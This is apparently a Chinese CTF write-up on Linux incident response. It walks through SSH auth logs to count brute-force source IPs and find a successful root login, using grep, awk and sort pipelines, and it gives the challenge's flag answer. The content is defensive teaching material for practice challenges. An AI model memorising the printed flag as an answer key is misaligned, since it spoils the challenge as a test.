# 0x01前言

在刷ctfshow的空闲时间里做一些玄机的安全日志和应急响应方面的题目，也算是更偏向于实践中的一些防守措施吧,不过第一章都是借鉴着师傅的wp进行实践学习的

[玄机——第一章 应急响应-Linux日志分析 wp_玄机linux日志分析-CSDN博客](https://blog.csdn.net/administratorlws/article/details/139560740?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-139560740-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

[玄机——第一章 应急响应- Linux入侵排查 wp_玄机应急-CSDN博客](https://blog.csdn.net/administratorlws/article/details/139577643?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-139577643-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

[玄机——第一章 应急响应-webshell查杀 wp（手把手保姆级教学）-CSDN博客](https://blog.csdn.net/administratorlws/article/details/139521078?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-139521078-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

# 0x02正文

### 第一章 应急响应-Linux日志分析

#### 什么是Linux日志分析

Linux日志分析是指对Linux系统中生成的日志文件进行检查、监控和分析的过程。在Linux系统中，各种服务和应用程序会产生日志文件，记录系统运行状态、用户操作、系统错误、安全事件等信息。分析这些日志可以帮助系统管理员理解系统的运行状况，诊断问题，并确保系统的安全和稳定运行。日志分析可以手动进行，也可以使用各种日志分析工具来自动化这一过程。常见的日志文件包括系统日志（/var/log/syslog 或 /var/log/messages）、认证日志（/var/log/auth.log）、应用程序日志等。

#### 常见日志文件

Linux系统中的日志文件通常存储在 /var/log 目录下，常见的日志文件包括：

| 日志文件             | 文件说明                                                     |
| -------------------- | ------------------------------------------------------------ |
| **/var/log/cron**    | 记录了系统定时任务相关的日志。                               |
| /var/log/cups        | 记录打印信息的日志。                                         |
| **/var/log/dmesg**   | 记录了系统在开机时内核自检的信息，也可以使用 dmesg 命令直接查看内核自检信息。 |
| /var/log/mailog      | 记录邮件信息。                                               |
| **/var/log/message** | 记录系统重要信息的日志。这个日志文件中会记录 Linux 系统的绝大多数重要信息，如果系统出现问题时，首先要检查的就应该是这个日志文件。 |
| /var/log/btmp        | 记录错误登录日志，这个文件是二进制文件，不能直接 vim 查看，而要使用 `lastb` 命令查看。 |
| /var/log/lastlog     | 记录系统中所有用户最后一次登录时间的日志，这个文件是二进制文件，不能直接 vim ，而要使用 `lastlog` 命令查看。 |
| /var/log/wtmp        | 永久记录所有用户的登录、注销信息，同时记录系统的启动、重启、关机事件。同样这个文件也是一个二进制文件，不能直接 vim ，而需要使用 `last` 命令来查看。 |
| /var/run/utmp        | 记录当前已经登录的用户信息，这个文件会随着用户的登录和注销不断变化，只记录当前登录用户的信息。同样这个文件不能直接 vim ，而要使用 `w` ， `who` ， `users`等命令来查询。 |
| **/var/log/secure**  | 记录验证和授权方面的信息，只要涉及账号和密码的程序都会记录，比如 SSH 登录，su 切换用户，sudo 授权，甚至添加用户和修改用户密码都会记录在这个日志文件中。 |

#### 常用命令

`grep` 、 `sed` 、 `awk` 、 `find` 、`netstat` 等

查找文件中的关键字

```
grep [选项] "搜索模式" [文件或目录]
```

grep常见选项

| `-i`           | 忽略大小写（如 `grep -i "error" file.txt`）。                |
| -------------- | ------------------------------------------------------------ |
| `-v`           | **反向匹配**，显示**不包含**模式的行（如 `grep -v "success" file.txt`）。 |
| `-n`           | 显示匹配行的行号（如 `grep -n "warning" file.txt`）。        |
| `-c`           | 统计匹配行的数量（如 `grep -c "404" access.log`）。          |
| `-r` 或 `-R`   | 递归搜索目录下的所有文件（如 `grep -r "main" /src/`）。      |
| `-l`           | 仅显示包含匹配项的文件名（如 `grep -l "TODO" *.py`）。       |
| `-w`           | 全词匹配（如 `grep -w "root" auth.log` 不匹配 `rooted`）。   |
| `-A NUM`       | 显示匹配行及其后**NUM行**（如 `grep -A 3 "panic" syslog`）。 |
| `-B NUM`       | 显示匹配行及其前**NUM行**（如 `grep -B 2 "error" app.log`）。 |
| `-C NUM`       | 显示匹配行及其前后各**NUM行**（上下文）。                    |
| `-e`           | 指定多个模式（如 `grep -e "error" -e "fail" file.txt`）。    |
| `-E`           | 启用扩展正则表达式（等同于 `egrep`）。                       |
| `-F`           | 按字面字符串匹配（禁用正则表达式，速度快）。                 |
| `--color=auto` | 高亮显示匹配内容（默认已启用）。                             |
| -a             | 选项表示将文件内容视为文本文件                               |

#### 解题

我们先看这道题的任务



##### 连接主机

那我们先ssh连接一下目标ip

```
ssh root@ip
```

 **命令解释**

- `ssh`: 这是启动 SSH 客户端的命令。
- `root`: 这是你要以其身份登录的用户名。在这个例子中，是根用户（root）。
- `IP`: 这是目标服务器的 IP 地址或主机名。

##### 问题1:查看有多少IP在爆破主机ssh的root帐号

遇到这种问题我们应该怎么解决?

首先，我们应该先找到我们日志的文件，一般来说ssh登录尝试都会记录在/var/log/auth.log.1（这是固定的）

这个日志文件的组成结构

```
月 日 时间 主机名 进程名[PID]: 事件类型: 详细信息
```

常见的内容有：

- 成功登录

  ```
  Aug 10 14:22:35 server sshd[1234]: Accepted password for user1 from 192.168.1.100 port 22 ssh2
  Aug 10 14:23:01 server sshd[1235]: Accepted publickey for user2 from 192.168.1.101 port 22
  ```

- 登录失败

  ```
  Aug 10 14:24:10 server sshd[1236]: Failed password for invalid_user from 192.168.1.200 port 22
  Aug 10 14:25:45 server sshd[1237]: Connection closed by authenticating user user1 192.168.1.100 port 22 [preauth]
  ```

- 暴力破解痕迹

  ```
  Aug 10 14:30:00 server sshd[1240]: Received disconnect from 192.168.1.200: 3: Authentication failed [preauth]
  Aug 10 14:31:12 server sshd[1241]: Disconnecting: Too many authentication failures for user1 [preauth]
  ```

我们先cat查看一下auth.log.1的内容

```
Aug  1 07:40:47 linux-rz sshd[7461]: Invalid user test1 from 192.168.200.35 port 33874
Aug  1 07:40:48 linux-rz sshd[7461]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:40:48 linux-rz sshd[7461]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.35
Aug  1 07:40:50 linux-rz sshd[7461]: Failed password for invalid user test1 from 192.168.200.35 port 33874 ssh2
Aug  1 07:40:52 linux-rz sshd[7461]: Connection closed by invalid user test1 192.168.200.35 port 33874 [preauth]
Aug  1 07:40:58 linux-rz sshd[7465]: Invalid user test2 from 192.168.200.35 port 51640
Aug  1 07:41:01 linux-rz sshd[7465]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:41:01 linux-rz sshd[7465]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.35
Aug  1 07:41:04 linux-rz sshd[7465]: Failed password for invalid user test2 from 192.168.200.35 port 51640 ssh2
Aug  1 07:41:07 linux-rz sshd[7465]: Connection closed by invalid user test2 192.168.200.35 port 51640 [preauth]
Aug  1 07:41:09 linux-rz sshd[7468]: Invalid user test3 from 192.168.200.35 port 48168
Aug  1 07:41:11 linux-rz sshd[7468]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:41:11 linux-rz sshd[7468]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.35
Aug  1 07:41:13 linux-rz sshd[7468]: Failed password for invalid user test3 from 192.168.200.35 port 48168 ssh2
Aug  1 07:41:19 linux-rz sshd[7468]: Connection closed by invalid user test3 192.168.200.35 port 48168 [preauth]
Aug  1 07:42:30 linux-rz sshd[7471]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.32  user=root
Aug  1 07:42:32 linux-rz sshd[7471]: Failed password for root from 192.168.200.32 port 51888 ssh2
Aug  1 07:42:33 linux-rz sshd[7471]: Connection closed by authenticating user root 192.168.200.32 port 51888 [preauth]
Aug  1 07:42:49 linux-rz sshd[7288]: Received disconnect from 192.168.200.2 port 54682:11: disconnected by user
Aug  1 07:42:49 linux-rz sshd[7288]: Disconnected from user root 192.168.200.2 port 54682
Aug  1 07:42:49 linux-rz sshd[7288]: pam_unix(sshd:session): session closed for user root
Aug  1 07:42:49 linux-rz systemd-logind[440]: Session 6 logged out. Waiting for processes to exit.
Aug  1 07:42:49 linux-rz systemd-logind[440]: Removed session 6.
Aug  1 07:46:39 linux-rz sshd[7475]: Invalid user user from 192.168.200.2 port 36149
Aug  1 07:46:39 linux-rz sshd[7475]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:39 linux-rz sshd[7475]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:41 linux-rz sshd[7475]: Failed password for invalid user user from 192.168.200.2 port 36149 ssh2
Aug  1 07:46:45 linux-rz sshd[7475]: Connection closed by invalid user user 192.168.200.2 port 36149 [preauth]
Aug  1 07:46:45 linux-rz sshd[7478]: Invalid user user from 192.168.200.2 port 44425
Aug  1 07:46:45 linux-rz sshd[7478]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:45 linux-rz sshd[7478]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:47 linux-rz sshd[7478]: Failed password for invalid user user from 192.168.200.2 port 44425 ssh2
Aug  1 07:46:48 linux-rz sshd[7478]: Connection closed by invalid user user 192.168.200.2 port 44425 [preauth]
Aug  1 07:46:48 linux-rz sshd[7480]: Invalid user user from 192.168.200.2 port 38791
Aug  1 07:46:48 linux-rz sshd[7480]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:48 linux-rz sshd[7480]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:50 linux-rz sshd[7480]: Failed password for invalid user user from 192.168.200.2 port 38791 ssh2
Aug  1 07:46:52 linux-rz sshd[7480]: Connection closed by invalid user user 192.168.200.2 port 38791 [preauth]
Aug  1 07:46:52 linux-rz sshd[7482]: Invalid user user from 192.168.200.2 port 37489
Aug  1 07:46:52 linux-rz sshd[7482]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:52 linux-rz sshd[7482]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:54 linux-rz sshd[7482]: Failed password for invalid user user from 192.168.200.2 port 37489 ssh2
Aug  1 07:46:54 linux-rz sshd[7482]: Connection closed by invalid user user 192.168.200.2 port 37489 [preauth]
Aug  1 07:46:54 linux-rz sshd[7484]: Invalid user user from 192.168.200.2 port 35575
Aug  1 07:46:54 linux-rz sshd[7484]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:54 linux-rz sshd[7484]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:56 linux-rz sshd[7484]: Failed password for invalid user user from 192.168.200.2 port 35575 ssh2
Aug  1 07:46:57 linux-rz sshd[7484]: Connection closed by invalid user user 192.168.200.2 port 35575 [preauth]
Aug  1 07:46:57 linux-rz sshd[7486]: Invalid user hello from 192.168.200.2 port 35833
Aug  1 07:46:57 linux-rz sshd[7486]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:46:57 linux-rz sshd[7486]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:46:59 linux-rz sshd[7486]: Failed password for invalid user hello from 192.168.200.2 port 35833 ssh2
Aug  1 07:46:59 linux-rz sshd[7486]: Connection closed by invalid user hello 192.168.200.2 port 35833 [preauth]
Aug  1 07:47:00 linux-rz sshd[7489]: Invalid user hello from 192.168.200.2 port 37653
Aug  1 07:47:00 linux-rz sshd[7489]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:00 linux-rz sshd[7489]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:02 linux-rz sshd[7489]: Failed password for invalid user hello from 192.168.200.2 port 37653 ssh2
Aug  1 07:47:02 linux-rz sshd[7489]: Connection closed by invalid user hello 192.168.200.2 port 37653 [preauth]
Aug  1 07:47:02 linux-rz sshd[7491]: Invalid user hello from 192.168.200.2 port 37917
Aug  1 07:47:02 linux-rz sshd[7491]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:02 linux-rz sshd[7491]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:04 linux-rz sshd[7491]: Failed password for invalid user hello from 192.168.200.2 port 37917 ssh2
Aug  1 07:47:05 linux-rz sshd[7491]: Connection closed by invalid user hello 192.168.200.2 port 37917 [preauth]
Aug  1 07:47:05 linux-rz sshd[7493]: Invalid user hello from 192.168.200.2 port 41957
Aug  1 07:47:05 linux-rz sshd[7493]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:05 linux-rz sshd[7493]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:08 linux-rz sshd[7493]: Failed password for invalid user hello from 192.168.200.2 port 41957 ssh2
Aug  1 07:47:08 linux-rz sshd[7493]: Connection closed by invalid user hello 192.168.200.2 port 41957 [preauth]
Aug  1 07:47:08 linux-rz sshd[7495]: Invalid user hello from 192.168.200.2 port 39685
Aug  1 07:47:08 linux-rz sshd[7495]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:08 linux-rz sshd[7495]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:10 linux-rz sshd[7495]: Failed password for invalid user hello from 192.168.200.2 port 39685 ssh2
Aug  1 07:47:11 linux-rz sshd[7495]: Connection closed by invalid user hello 192.168.200.2 port 39685 [preauth]
Aug  1 07:47:11 linux-rz sshd[7497]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2  user=root
Aug  1 07:47:13 linux-rz sshd[7497]: Failed password for root from 192.168.200.2 port 34703 ssh2
Aug  1 07:47:15 linux-rz sshd[7497]: Connection closed by authenticating user root 192.168.200.2 port 34703 [preauth]
Aug  1 07:47:16 linux-rz sshd[7499]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2  user=root
Aug  1 07:47:18 linux-rz sshd[7499]: Failed password for root from 192.168.200.2 port 46671 ssh2
Aug  1 07:47:18 linux-rz sshd[7499]: Connection closed by authenticating user root 192.168.200.2 port 46671 [preauth]
Aug  1 07:47:18 linux-rz sshd[7501]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2  user=root
Aug  1 07:47:20 linux-rz sshd[7501]: Failed password for root from 192.168.200.2 port 39967 ssh2
Aug  1 07:47:20 linux-rz sshd[7501]: Connection closed by authenticating user root 192.168.200.2 port 39967 [preauth]
Aug  1 07:47:20 linux-rz sshd[7503]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2  user=root
Aug  1 07:47:22 linux-rz sshd[7503]: Failed password for root from 192.168.200.2 port 46647 ssh2
Aug  1 07:47:23 linux-rz sshd[7503]: Connection closed by authenticating user root 192.168.200.2 port 46647 [preauth]
Aug  1 07:47:23 linux-rz sshd[7505]: Accepted password for root from 192.168.200.2 port 46563 ssh2
Aug  1 07:47:23 linux-rz sshd[7505]: pam_unix(sshd:session): session opened for user root by (uid=0)
Aug  1 07:47:23 linux-rz systemd-logind[440]: New session 7 of user root.
Aug  1 07:47:23 linux-rz sshd[7525]: Invalid user  from 192.168.200.2 port 37013
Aug  1 07:47:23 linux-rz sshd[7525]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:23 linux-rz sshd[7525]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:26 linux-rz sshd[7525]: Failed password for invalid user  from 192.168.200.2 port 37013 ssh2
Aug  1 07:47:28 linux-rz sshd[7525]: Connection closed by invalid user  192.168.200.2 port 37013 [preauth]
Aug  1 07:47:28 linux-rz sshd[7528]: Invalid user  from 192.168.200.2 port 37545
Aug  1 07:47:28 linux-rz sshd[7528]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:28 linux-rz sshd[7528]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:30 linux-rz sshd[7528]: Failed password for invalid user  from 192.168.200.2 port 37545 ssh2
Aug  1 07:47:30 linux-rz sshd[7528]: Connection closed by invalid user  192.168.200.2 port 37545 [preauth]
Aug  1 07:47:30 linux-rz sshd[7530]: Invalid user  from 192.168.200.2 port 39111
Aug  1 07:47:30 linux-rz sshd[7530]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:30 linux-rz sshd[7530]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:32 linux-rz sshd[7530]: Failed password for invalid user  from 192.168.200.2 port 39111 ssh2
Aug  1 07:47:32 linux-rz sshd[7530]: Connection closed by invalid user  192.168.200.2 port 39111 [preauth]
Aug  1 07:47:33 linux-rz sshd[7532]: Invalid user  from 192.168.200.2 port 35173
Aug  1 07:47:33 linux-rz sshd[7532]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:33 linux-rz sshd[7532]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:35 linux-rz sshd[7532]: Failed password for invalid user  from 192.168.200.2 port 35173 ssh2
Aug  1 07:47:37 linux-rz sshd[7532]: Connection closed by invalid user  192.168.200.2 port 35173 [preauth]
Aug  1 07:47:37 linux-rz sshd[7534]: Invalid user  from 192.168.200.2 port 45807
Aug  1 07:47:37 linux-rz sshd[7534]: pam_unix(sshd:auth): check pass; user unknown
Aug  1 07:47:37 linux-rz sshd[7534]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.2
Aug  1 07:47:39 linux-rz sshd[7534]: Failed password for invalid user  from 192.168.200.2 port 45807 ssh2
Aug  1 07:47:41 linux-rz sshd[7534]: Connection closed by invalid user  192.168.200.2 port 45807 [preauth]
Aug  1 07:50:29 linux-rz sshd[7505]: pam_unix(sshd:session): session closed for user root
Aug  1 07:50:29 linux-rz systemd-logind[440]: Session 7 logged out. Waiting for processes to exit.
Aug  1 07:50:29 linux-rz systemd-logind[440]: Removed session 7.
Aug  1 07:50:37 linux-rz sshd[7539]: Accepted password for root from 192.168.200.2 port 48070 ssh2
Aug  1 07:50:37 linux-rz sshd[7539]: pam_unix(sshd:session): session opened for user root by (uid=0)
Aug  1 07:50:37 linux-rz systemd-logind[440]: New session 8 of user root.
Aug  1 07:50:45 linux-rz useradd[7551]: new group: name=test2, GID=1000
Aug  1 07:50:45 linux-rz useradd[7551]: new user: name=test2, UID=1000, GID=1000, home=/home/test2, shell=/bin/sh
Aug  1 07:50:52 linux-rz passwd[7563]: pam_unix(passwd:chauthtok): password changed for test2
Aug  1 07:50:56 linux-rz sshd[7539]: Received disconnect from 192.168.200.2 port 48070:11: disconnected by user
Aug  1 07:50:56 linux-rz sshd[7539]: Disconnected from user root 192.168.200.2 port 48070
Aug  1 07:50:56 linux-rz sshd[7539]: pam_unix(sshd:session): session closed for user root
Aug  1 07:50:56 linux-rz systemd-logind[440]: Session 8 logged out. Waiting for processes to exit.
Aug  1 07:50:56 linux-rz systemd-logind[440]: Removed session 8.
Aug  1 07:52:57 linux-rz sshd[7606]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.200.31  user=root
Aug  1 07:52:59 linux-rz sshd[7606]: Failed password for root from 192.168.200.31 port 40364 ssh2
Aug  1 07:53:01 linux-rz sshd[7606]: Connection closed by authenticating user root 192.168.200.31 port 40364 [preauth]
Aug  1 08:01:26 linux-rz sshd[748]: Received disconnect from 192.168.200.2 port 50378:11: disconnected by user
Aug  1 08:01:26 linux-rz sshd[748]: Disconnected from user root 192.168.200.2 port 50378
Aug  1 08:01:26 linux-rz sshd[748]: pam_unix(sshd:session): session closed for user root
Aug  1 08:01:26 linux-rz systemd-logind[440]: Session 3 logged out. Waiting for processes to exit.
Aug  1 08:01:26 linux-rz systemd-logind[440]: Removed session 3.
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: new group: name=debian, GID=1001
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: new user: name=debian, UID=1001, GID=1001, home=/home/debian, shell=/bin/bash
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'adm'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'dialout'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'cdrom'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'floppy'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'sudo'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'audio'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'dip'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'video'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'plugdev'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to group 'netdev'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'adm'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'dialout'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'cdrom'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'floppy'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'sudo'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'audio'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'dip'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'video'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'plugdev'
Aug  1 08:18:27 ip-172-31-37-190 useradd[487]: add 'debian' to shadow group 'netdev'
Aug  1 08:18:27 ip-172-31-37-190 passwd[493]: password for 'debian' changed by 'root'
Aug  1 08:18:27 ip-172-31-37-190 sudo:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/bin/touch /var/log/aws114_ssm_agent_installation.log
Aug  1 08:18:27 ip-172-31-37-190 sudo: pam_unix(sudo:session): session opened for user root by (uid=0)
Aug  1 08:18:27 ip-172-31-37-190 sudo: pam_unix(sudo:session): session closed for user root
Aug  1 08:18:27 ip-172-31-37-190 sshd[544]: Server listening on 0.0.0.0 port 22.
Aug  1 08:18:27 ip-172-31-37-190 systemd-logind[503]: Watching system buttons on /dev/input/event1 (Power Button)
Aug  1 08:18:27 ip-172-31-37-190 sshd[544]: Server listening on :: port 22.
Aug  1 08:18:27 ip-172-31-37-190 systemd-logind[503]: Watching system buttons on /dev/input/event2 (Sleep Button)
Aug  1 08:18:27 ip-172-31-37-190 systemd-logind[503]: Watching system buttons on /dev/input/event0 (AT Translated Set 2 keyboard)
Aug  1 08:18:27 ip-172-31-37-190 systemd-logind[503]: New seat seat0.
Apr 21 05:55:16 ip-10-0-10-3 passwd[418]: password for 'debian' changed by 'root'
Apr 21 05:55:16 ip-10-0-10-3 systemd-logind[432]: Watching system buttons on /dev/input/event1 (Power Button)
Apr 21 05:55:16 ip-10-0-10-3 systemd-logind[432]: Watching system buttons on /dev/input/event2 (Sleep Button)
Apr 21 05:55:16 ip-10-0-10-3 systemd-logind[432]: Watching system buttons on /dev/input/event0 (AT Translated Set 2 keyboard)
Apr 21 05:55:16 ip-10-0-10-3 systemd-logind[432]: New seat seat0.
Apr 21 05:55:16 ip-10-0-10-3 sshd[465]: Server listening on 0.0.0.0 port 22.
Apr 21 05:55:16 ip-10-0-10-3 sshd[465]: Server listening on :: port 22.
```

接着，那既然是爆破，肯定会有很多的失败次数，那我们可以

- **使用grep筛选出SSH失败的登录尝试**： 我们需要筛选出涉及到SSH失败登录尝试的日志条目。

payload

```
cat auth.log.1 | grep -a "Failed password"
```



因为是查看尝试爆破主机root账号的，所以我们只需要关注root管理员用户就行，user的就不用管了

```
cat auth.log.1 | grep -a "Failed password for root"
```


这里的话因为内容不多，如果数据内容很多的话可以用更精准的命令去筛选

```
cat /var/log/auth.log.1 | grep -a "Failed password for root" | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

简单来说就是分析`auth.log.1`日志文件，提取出所有包含"Failed password for root "字符串的行，然后使用`awk`命令提取每行的第11个字段（通常这个字段表示远程IP地址），之后对这些IP地址进行排序和统计，最后按照数量的降序排列，并通过`more`命令分页显示结果。

命令解释：

- `cat /var/log/auth.log.1`：cat 命令用于显示 auth.log.1 文件的内容。这里 auth.log.1 是一个日志文件，通常是系统日志的备份文件。
- `grep -a "Failed password for root"`：grep 命令用于在输入中搜索包含特定模式的行。
- `awk '{print \$11}'`：用于提取每行的第 11 个字段（列）。（以空格或制表符为默认分隔符）。
- `sort`：用于对输入行进行排序。
- `uniq -c `：uniq 命令用于删除重复的行。-c 选项表示对每个唯一的行计数，即统计每个IP地址的出现次数。

- `sort -nr`：sort 命令再次用于排序。-n 选项表示按数值进行排序。-r 选项表示按降序排序。组合起来，即按出现次数从高到低排序。
- `more`：more 命令用于分页显示输出。由于输出可能很长，more 命令允许用户逐页查看结果。

最终所有的命令用管道符连接，将前一个命令的输出当成下一个命令的输入


- **提取IP地址**： 从这些日志条目中提取尝试登录的IP地址。

```
192.168.200.2,192.168.200.31,192.168.200.32
```

- **统计各个IP地址的尝试次数**： 统计每个IP地址的尝试次数，找出所有尝试暴力破解的IP。

从上面就可以看到，第一列就是该ip尝试的次数

将这几个ip从大到小排序

```
flag{192.168.200.2,192.168.200.31,192.168.200.32}
```

额外的

```
定位有哪些IP在爆破：
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c
```

##### 问题2:ssh爆破成功登陆的IP是多少

直接给命令吧

```
cat auth.log.1 | grep -a "Accepted " | awk '{print $11}' | sort | uniq -c | sort -nr | more
```


搜查那个Accepted登录成功的用户ip

或者也可以用之前的命令


有一个问题，为什么是Accepted?

在Linux系统的认证日志（例如`auth.log`）中，"Accepted"这个词通常用来标识成功的登录尝试。当一个用户或者系统通过认证机制成功登录时，相关的日志条目会包含"Accepted"这个词。这包括通过SSH、FTP、sudo等方式的成功登录。

```
